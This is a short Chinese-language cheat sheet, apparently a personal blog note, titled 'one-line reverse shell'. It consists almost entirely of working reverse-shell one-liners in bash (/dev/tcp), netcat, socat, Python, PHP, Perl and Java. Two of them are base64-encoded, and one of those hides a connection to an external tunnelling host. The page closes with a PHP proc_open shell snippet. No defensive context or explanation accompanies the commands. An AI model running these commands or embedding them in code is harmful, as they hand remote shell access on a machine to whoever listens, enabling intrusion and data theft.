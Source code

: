```yaml
---
title: "一句话反弹shell"
author: ["4shen0ne"]
draft: false
---
```


```text
bash -i >& /dev/tcp/192.168.31.41/8080 0>&1
```

```text
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC9zZXJ2ZXIubmF0YXBwZnJlZS5jYy80NTQwMCAwPiYx}|{base64,-d}|{bash,-i}
```

```text
netcat 192.168.31.174 8080 -e /bin/bash
```

```text
nc 192.168.31.174 8080 -t -e /bin/bash
```

```text
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.31.174：12345
```

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.31.41",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```text
php -r '$sock=fsockopen("192.168.31.41",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```java
Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEyNy4wLjAuMS84ODg4IDA+JjE=}|{base64,-d}|{bash,-i}");
```

```text
perl -e 'use Socket;$i="192.168.31.41";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


## PHP 反弹 shell {#php-反弹-shell}

ref: <https://www.leavesongs.com/PHP/backshell-via-php.html>

```php
$sock = fsockopen($ip, $port);
$descriptorspec = array(
        0 => $sock,
        1 => $sock,
        2 => $sock
);
$process = proc_open('/bin/sh', $descriptorspec, $pipes);
proc_close($process);
```
